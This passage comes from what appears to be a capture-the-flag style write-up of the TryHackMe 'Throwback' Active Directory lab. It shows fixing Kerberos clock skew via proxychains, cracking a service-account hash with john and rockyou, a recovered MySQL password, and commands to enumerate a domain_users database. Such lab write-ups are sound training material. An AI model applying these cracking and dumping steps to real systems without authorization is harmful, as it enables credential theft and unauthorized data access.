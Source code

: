 If you have an error like `Kerberos SessionERROR: KRB_AP_ERR_SKEW(Clock skew too great)` you need to sync the time with the AD server
`proxychains rdate -n 10.200.154.117`
or
`proxychains ntpd 10.200.154.117`

Now, we have the hash let's retrieve it to plain text.

`john --wordlist=~/tools/rockyou.txt hashes/sql_server`

![spn_2_3](/assets/img/tryhackme/throwback/spn_2_3.png)

#### 8.3 MYSQL
`password: mysql1337570`

Let's dump the database.

![mysql1](/assets/img/tryhackme/throwback/mysql1.png)

```bash
1. show databases;
2. use domain_users;
3. show tables;
```
